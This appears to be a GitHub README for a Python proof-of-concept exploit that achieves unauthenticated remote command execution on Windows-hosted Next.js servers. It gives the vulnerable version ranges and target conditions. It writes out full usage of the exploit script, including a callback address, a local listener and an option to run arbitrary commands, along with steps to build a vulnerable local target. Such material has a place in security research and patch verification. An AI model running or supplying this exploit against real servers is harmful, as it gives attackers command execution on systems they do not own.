

# CVE-2026-75604 RCE PoC

Python proof of concept for [CVE-2026-75604](https://github.com/vercel/next.js/security/advisories/GHSA-p293-qw3h-jr36), an unauthenticated remote command execution vulnerability in Windows-hosted Next.js applications that use both the Pages Router and App Router without Cache Components.

## Demonstration



## Requirements

- Next.js `>=13.4 <15.5.24` or `>=16.0 <16.3.3`
- Native Windows server
- Pages Router and App Router without Cache Components
- Default filesystem cache with a dynamic Pages ISR route and a dynamic cached App route
- A compatible closure-bound Server Action
- Python 3.9+ and a callback address reachable by the target

Validated with `next@16.2.11`.

```bash
python -m pip install -r requirements.txt
```

## Usage

```bash
python poc.py --target http://TARGET:3000 --callback-ip CALLBACK_IP --pages-cache-path /PATH/TO/PAGES_ISR_INSTANCE --app-cache-path /PATH/TO/APP_CACHE_INSTANCE
```

The Server Action path defaults to `/`. Use `--action-field` when its form has more than one field.

Required arguments:

- `--target URL`: base URL of the Next.js application
- `--callback-ip ADDRESS`: IPv4 address reachable by the target
- `--pages-cache-path PATH`: existing dynamic Pages Router ISR page
- `--app-cache-path PATH`: existing dynamic App Router page backed by the filesystem cache

Optional arguments:

- `--command COMMAND`: command to execute; defaults to `whoami`
- `--action-path PATH`: App Router page containing the compatible Server Action; defaults to `/`
- `--action-field NAME`: form field consumed by the action; detected automatically when unambiguous
- `--callback-port PORT`: callback port; defaults to `4331`
- `--listen-address ADDRESS`: local callback bind address; defaults to `0.0.0.0`
- `--timeout SECONDS`: request and callback timeout; defaults to `20`
- `--insecure`: disables TLS certificate verification

## Local target

The optional `target/` application pins `next@16.2.11` and uses the standard Next.js production server:

```powershell
cd target
npm ci
npm run build
npm start
```

Run the PoC in another terminal:

```powershell
python poc.py --target http://127.0.0.1:4330 --callback-ip 127.0.0.1 --pages-cache-path /pages-cache/seed --app-cache-path /app-cache/seed
```

The optional target provides the required routes and a compatible Server Action on `/`.

## Disclaimer

This PoC is provided for educational purposes, security research, and authorized testing only. Use it only on systems you own or have explicit permission to test.

## Credits

Credit to [evolutionstorm](https://github.com/evolutionstorm) & [b0r1](https://github.com/B0RI).

This PoC was independently reconstructed from the public advisory and [Next.js patch](https://github.com/vercel/next.js/commit/09f9c8a758a6b20f248b0e90e539bba8225c73bb).
